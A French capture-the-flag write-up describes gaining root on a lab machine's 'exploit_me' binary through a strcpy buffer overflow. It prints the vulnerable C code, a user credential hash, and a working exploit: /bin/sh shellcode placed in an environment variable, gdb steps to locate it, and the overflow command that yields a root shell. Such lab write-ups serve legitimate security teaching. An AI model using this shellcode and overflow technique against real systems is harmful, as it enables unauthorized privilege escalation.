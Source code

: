 # Solution 3

Pour cette solution, nous reprenons le `writeup1` pour revenir jusqu'à l'utilisateur `zaz`.

`zaz:646da671ca01bb5d84dbb5fb2238dc8e`

Nous reprenons l'exécutable `exploit_me` présent à la racine. Nous avions effectué une attaque par buffer overflow, qui grâce à un shellcode que nous avions mis en mémoire et exécuté via le `strcpy` non protégé.

```C
int main(int argc, char **argv)
{
    char buffer[140];

    if (argc > 1) {
        strcpy(buffer, argv[1]);
        puts(buffer);
    }
    return argc < 2;
}
```

Nous avions eu la place, dans les 140 caractères du buffer, de placer notre `shellcode`. Mais dans l'éventualité où ce buffer ai été trop petit, nous n'aurions pas pu le faire.

Une solution alternative aurait été de placer notre `shellcode` dans une `variable d'environnement`. En effet, les variables d'environnement sont chargées en mémoire et accessibles depuis le programme. Il nous suffit donc de trouver l'adresse de cette variable et de remplacer l'`EIP` par cette adresse.

On déclare donc notre variable d'environnement :

```shell
$ export Shellcode=$(python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"')
```

Puis on récupère son adresse grâce à `gdb` :

```shell
$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) break *main
Breakpoint 1 at 0x80483f4
(gdb) run
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f4 in main ()
(gdb) x/s *((char **)environ)
0xbffff8a1:      "Shellcode=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343P\211\341P\211\342\260\v̀"
```

Notre shellcode est donc à l'adresse `0xbffff8a1`. Nous passerons donc l'addresse `0xbffff8c0` afin d'être sûr de tomber dans notre `nopslide`.

Voici le résultat :

```shell
$ ./exploit_me $(python -c 'print("A"*140 + "\xbf\xff\xf8\xc0"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# whoami
root
#
```
